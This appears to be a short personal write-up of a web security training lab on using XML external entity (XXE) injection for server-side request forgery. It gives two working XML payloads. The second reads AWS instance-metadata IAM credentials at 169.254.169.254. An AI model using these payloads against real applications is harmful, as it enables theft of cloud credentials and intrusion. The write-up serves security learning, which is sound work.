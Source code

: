 # Exploiting XXE to perform SSRF attacks

Same application as in [[Lab 1]] this time the resource to be parsed by the external entity is: `http://169.254.169.254/`

So the payload will be 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
	<productId>
	&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

The application retrieves:

![[strange.png]]

It took me a while to understand the `latest`, but checking [this](https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/instancedata-data-retrieval.html) resource it was clear that the server was responding with the directory listing, following the path of each response, the following payload will solve the lab.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
	<productId>
	&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

![[XXE/Labs/XEE2SSRF/images/exploited.png]]